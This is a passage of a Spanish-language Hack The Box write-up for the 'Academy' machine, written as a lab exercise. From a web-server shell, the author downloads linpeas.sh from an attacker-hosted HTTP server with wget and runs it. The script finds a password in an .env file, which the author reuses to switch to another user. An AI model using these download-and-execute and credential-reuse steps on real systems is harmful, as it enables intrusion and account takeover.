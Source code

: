 * [S4vitar explicando como hacer tratamiento de la TTY](https://www.youtube.com/watch?v=GVjNI-cPG6M&t=1689).

Ahora si, sigamos:

```bash
www-data@academy:/var/www/html/htb-academy-dev-01/public$ ls -la /home/
total 32
drwxr-xr-x  8 root     root     4096 Aug 10 00:34 .
drwxr-xr-x 20 root     root     4096 Aug  7 12:07 ..
drwxr-xr-x  2 21y4d    21y4d    4096 Aug 10 00:34 21y4d
drwxr-xr-x  2 ch4p     ch4p     4096 Aug 10 00:34 ch4p
drwxr-xr-x  6 cry0l1t3 cry0l1t3 4096 Jan 13 01:36 cry0l1t3
drwxr-xr-x  3 egre55   egre55   4096 Aug 10 23:41 egre55
drwxr-xr-x  2 g0blin   g0blin   4096 Aug 10 00:34 g0blin
drwxr-xr-x  7 mrb3n    mrb3n    4096 Jan 13 01:25 mrb3n
```

Varios usuarios en el sistema, vemos dos que han sido actualizados hace poco, `cry0l1t3` y `mrb3n`. La bandera `user.txt` está en el usuario `cry0l1t3`, vemos como escalar a él...

Subiendo el script de enumeración `linpeas.sh` a la máquina y ejecutándolo conseguimos una contraseña:

```bash
–» python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

```bash
www-data@academy:/dev/shm$ wget http://10.10.14.141:8000/linpeas.sh
www-data@academy:/dev/shm$ chmod +x linpeas.sh
www-data@academy:/dev/shm$ ./linpeas.sh
...
```

![297bash_revSH_foundCreds](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/academy/297bash_revSH_foundCreds.png)

Tenemos en el archivo `/var/www/html/academy/.env` una contraseña. Pues, ya que estamos probemos con alguno de los usuarios a ver si se nos permite el login:

```bash
www-data@academy:/dev/shm$ ls /home/
21y4d  ch4p  cry0l1t3  egre55  g0blin  mrb3n
www-data@academy:/dev/shm$ su 21y4d
Password: 
su: Authentication failure
www-data@academy:/dev/shm$ su ch4p
Password: 
su: Authentication failure
www-data@academy:/dev/shm$ su cry0l1t3
Password: 
$ id
uid=1002(cry0l1t3) gid=1002(cry0l1t3) groups=1002(cry0l1t3),4(adm)
$ 
```
